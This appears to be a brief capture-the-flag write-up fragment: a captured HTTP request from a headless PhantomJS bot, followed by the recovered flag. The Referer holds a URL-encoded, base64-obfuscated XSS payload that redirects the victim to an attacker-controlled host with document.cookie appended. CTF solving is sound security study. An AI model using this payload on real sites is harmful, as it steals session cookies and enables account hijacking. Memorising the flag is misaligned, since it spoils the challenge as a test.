     GET /flag=rwctf%7BL00kI5TheFlo9%7D HTTP/1.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,* /*;q=0.8
    Referer: http://127.0.0.1/?%7B%22iframe%22%3A%7B%22type%22%3A%22script%22%2C%22value%22%3A%22data%3Atext%2Fjavascript%3Bbase64%2Cd2luZG93LmxvY2F0aW9uPSdodHRwOi8vYXJlbnQteW91LWN1cmlvLnVzOjEzMzcvJytkb2N1bWVudC5jb29raWU%3D%22%7D%7D
    User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
    Connection: Keep-Alive
    Accept-Encoding: gzip, deflate
    Accept-Language: en,*
    Host: <IP we control>:1337

`rwctf{L00kI5TheFlo9}`
